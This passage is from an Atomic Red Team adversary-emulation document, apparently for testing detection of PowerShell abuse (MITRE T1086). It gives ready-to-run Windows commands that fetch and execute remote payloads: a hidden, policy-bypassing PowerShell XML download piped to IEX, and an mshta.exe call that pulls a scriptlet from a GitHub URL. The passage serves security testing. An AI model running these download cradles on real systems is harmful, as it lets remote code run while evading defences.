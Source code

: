 
#### Run it with `command_prompt`! 
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -windowstyle hidden -noprofile "$Xml = (New-Object System.Xml.XmlDocument);$Xml.Load('#{url}');$Xml.command.a.execute | IEX"
```



<br/>
<br/>

## Atomic Test #10 - Powershell invoke mshta.exe download
Provided by https://github.com/mgreen27/mgreen27.github.io
Powershell invoke mshta to download payload

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/mshta.sct|


#### Run it with `powershell`! 
```
"C:\Windows\system32\cmd.exe" /c "mshta.exe javascript:a=GetObject('script:#{url}').Exec();close()"
```



<br/>
<br/>

## Atomic Test #11 - Powershell Invoke-DownloadCradle
Provided by https://github.com/mgreen27/mgreen27.github.io
Invoke-DownloadCradle is used to generate Network and Endpoint artifacts.

**Supported Platforms:** Windows



#### Run it with these steps! 
1. Open Powershell_ise as a Privileged Account
2. Invoke-DownloadCradle.ps1





<br/>
<br/>

## Atomic Test #12 - PowerShell Fileless Script Execution
Execution of a PowerShell payload from the Windows Registry similar to that seen in fileless malware infections.

